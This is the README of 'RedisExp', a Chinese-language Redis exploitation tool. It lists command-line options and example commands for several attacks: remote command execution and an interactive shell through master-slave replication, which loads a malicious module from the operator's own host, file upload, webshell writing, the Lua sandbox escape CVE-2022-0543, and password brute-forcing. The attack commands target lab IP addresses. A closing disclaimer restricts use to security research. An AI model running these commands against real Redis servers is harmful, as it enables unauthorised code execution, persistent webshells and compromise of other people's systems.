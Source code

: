 ### Redis 漏洞利用工具

帮助：`-h`

```
NAME:
   Redis Exp - Redis 利用工具

USAGE:
   Redis Exp [global options] command [command options] [arguments...]

COMMANDS:
   help, h  Shows a list of commands or help for one command

GLOBAL OPTIONS:
   --rhost value, -r value      目标IP
   --rport value, --rp value    目标端口 (default: "6379")
   --pwd value                  Redis密码
   --lhost value, -l value      本地IP
   --lport value, --lp value    本地端口 (default: "21000")
   --dll value, --so value      设置 exp.dll | exp.so (default: "exp.dll")
   --cmd value, -c value        命令执行
   --console                    使用交互式 shell (default: false)
   --exec                       主从复制命令执行 (default: false)
   --upload                     主从复制文件上传 (default: false)
   --rpath value, --path value  保存在目标的目录 (default: ".")
   --rfile value, --rf value    保存在目标的文件名
   --lfile value, --lf value    需要上传的文件名
   --lua                        Lua沙盒绕过命令执行 CVE-2022-0543 (default: false)
   --shell                      备份写 Webshell (default: false)
   --help, -h                   show help (default: false)
```

#### 主从复制漏洞

命令执行：

- 默认 windows 加载的是 `exp.dll`
- 默认是非交互式 shell

````
RedisExp.exe -rhost 192.168.211.128 -lhost 192.168.211.1 -exec -c whoami
RedisExp.exe -rhost 192.168.211.128 -lhost 192.168.211.1 -exec -console

RedisExp.exe -rhost 192.168.211.130 -lhost 192.168.211.1 -so exp.so -exec -c whoami
RedisExp.exe -rhost 192.168.211.130 -lhost 192.168.211.1 -so exp.so -exec -console
````

![1](images/1.png)

文件上传：

```
RedisExp.exe -rhost 192.168.211.128 -lhost 192.168.211.1 -upload -rfile 1.txt -lfile 2.txt
```

![2](images/2.png)



#### 备份写 Webshell

```
RedisExp.exe -rhost 192.168.211.128 -shell
```

![3](images/3.png)



#### Lua沙盒绕过命令执行 CVE-2022-0543

```
RedisExp.exe -rhost 192.168.211.130 -lua -console
```

![4](images/4.png)



#### 爆破 Redis 密码

```
RedisExp.exe -r 192.168.211.128 -brute -pwdf ../pass.txt
```

![4](images/5.png)



### 参考

本工具基于大量优秀文章和工具才得以编写完成，非常感谢这些无私的分享者！

- https://github.com/zyylhn/redis_rce
- https://github.com/0671/RabR
- https://github.com/r35tart/RedisWriteFile

 

### 声明

本工具仅用于个人安全研究学习。由于传播、利用本工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，工具作者不为此承担任何责任。